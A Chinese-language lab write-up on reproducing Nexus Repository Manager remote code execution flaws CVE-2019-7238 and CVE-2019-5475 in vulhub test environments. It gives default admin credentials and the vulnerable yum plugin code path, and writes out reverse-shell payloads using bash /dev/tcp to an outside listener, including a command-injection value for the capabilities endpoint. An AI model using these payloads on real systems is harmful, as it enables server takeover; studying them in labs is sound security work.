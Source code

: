 vulhub上有3.x版本的漏洞环境，尝试自己搭一个2.x版本的

# Nexus Repository Manager 3.x RCE (CVE-2019-7238)

vulhub环境 https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238

`docker-compose up -d`   启动环境 <3.15

1. 登录admin账户（默认为admin/admin123）
2. 初始环境需要上传一个jar包，生产环境应该不需要此操作
3. `bash -i >& /dev/tcp/xx.xx.xx.xx/xxxxx 0>&1`反弹shell 

![CVE-2019-7238](./image/CVE-2019-7238.gif)



# Nexus Repository Manager 2.x RCE (CVE-2019-5475)

## 简介

CVE编号：`CVE-2019-5475`

> Nexus Repository Manager OSS <= 2.14.13 
>
> Nexus Repository Manager Pro <= 2.14.13

## 启动环境

```shell
cd CVE-2019-7238
docker-compose up -d
```

## 简单分析

漏洞点在yum插件，该插件是内置的，但是只有admin用户组才能利用此漏洞。其中createrepo 和mergerepo都可以触发漏洞

![yum](./image/yum.png)

触发点在`nexus-public/plugins/yum/nexus-yum-repository-plugin/src/main/java/org/sonatype/nexus/yum/internal/capabilities/YumCapability#validate`

![code](./image/code.png)

因为拼接命令时后面有个`--version`,所以要用`&`把后面的分开，要不会执行不了前面的命令。

## 复现过程

value处的payload为`bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.0.9.99/55555 0>&1 &`

![CVE-2019-5475](./image/CVE-2019-5475.gif)

## ATTENTION

12.x是默认没有nexus目录的

即12.x攻击路径为`/service/siesta/capabilities`

14.x攻击路径是`/nexus/service/siesta/capabilities`

poc要修改一下

# 参考链接

1. https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238
2. https://www.secpulse.com/archives/112290.html
3. https://github.com/mpgn/CVE-2019-7238
4. https://mp.weixin.qq.com/s/E_BEp-yYKtIYAnQ6JP7fmg
5. https://github.com/shadowsock5/Poc/blob/master/nexes-manager/CVE-2019-5475.py

# 声明

本文仅供学习交流，如作他用所承受的法律责任一概与作者无关